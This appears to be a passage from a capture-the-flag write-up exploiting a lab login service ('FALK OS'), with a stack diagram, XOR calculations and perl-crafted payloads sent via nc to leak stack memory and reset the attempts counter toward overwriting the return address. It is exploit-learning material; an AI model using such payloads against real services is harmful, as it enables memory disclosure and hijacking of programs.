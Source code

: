 ```bash
|               |<- ebp - 0x30 (password)
\               \
/               /
|               |<- for ret
|               |
|               |<- for ebx
|               |
|               |<- for attempts
|               |<- ebp - 0x50 (username)
|_______________|
```
Here we have:
```bash
pass ^ user = 0xffcc ^ 0xfe33 = 0x01ff
ret ^ 0x01ff = 0x0f7e ^ 0x01ff = 0x0e81
0x0f0f0f0e ^ 0xf0f0f0f0 = 0xfffffffe
attempts ^ 0xfffffffe = 0x00000000
ebx = 0x80002f78
```
Well, actually we can not rewrite ret 'cause gdb told me ebx also has 0x00 in it.  
Really?

Let's examine the stack.  
Here we construct double inputs that allow us to examine the stack and end the program (by set attempts to 0) repectively.  

```bash
(perl -e 'print "A" x 4 . "\x26\x26\x26\x26" . "A" x 4 . "\x20\x60" . "A" x 6 . "\x06\x01\x01\x01" . "A" x 8 . "\x0a"' ; perl -e 'print "b" x 4 . "\x34\x34\x34\x34" . "b" x 4 . "\x1a\x0c" . "b" x 6 . "\x20\xd0\xd0\xd2" . "b" x 8 . "\x0a"'; perl -e 'print "A" x 4 . "\xe0\xe0\xe0\xE0" . "A" x 4 . "\x20\x0f" . "A" x 18 . "\x0a"' ; perl -e 'print "b" x 4 . "\x0D\x0D\x0D\x0D" . "b" x 4 . "\x1a\x0e" . "b" x 18 . "\x0a"'; ) | nc 192.168.56.101 6642

----------- FALK OS LOGIN PROMPT -----------
Enter your username: Enter your password: Authentication failed for user AAAA&&&&AAAA `AAAAAAAAAAAAAA########:l######&▒▒▒########▒▒▒▒▒▒▒▒[▒[▒B▒[▒▒ҜX▒▒d8
Enter your username: Enter your password: Authentication failed for user AAAA▒▒▒▒AAAA AAAAAAAAAAAAAAAAAA####▒▒▒▒####:##################▒▒▒▒

----------- FALK OS LOGIN PROMPT -----------
Enter your username: Enter your password: Authentication failed for user AAAA&&&&AAAA `AAAAAAAAAAAAAA########:l######&▒▒▒########▒▒▒▒▒▒▒▒[<R▒BsR▒;C▒▒X.▒d8
Enter your username: Enter your password: Authentication failed for user AAAA▒▒▒▒AAAA AAAAAAAAAAAAAAAAAA####▒▒▒▒####:##################▒▒▒▒
```
So, gdb gives us a different memory layout map in which PT_LOAD starts at 0x80000000.  

B = 0x23 ^ 0x78 That's where we touch ebx(offset f78).  
X = 0x26 ^ 0x7e That's where we touch ret(offset f7e).  
d = 0xd2 ^ 0x01 ^ 0xb7 which means ret address is 0xb7xxxf7e.  

X ^ Y ^ Y = X  
By this equation, we can restore `0xb7xx` part of ret address.
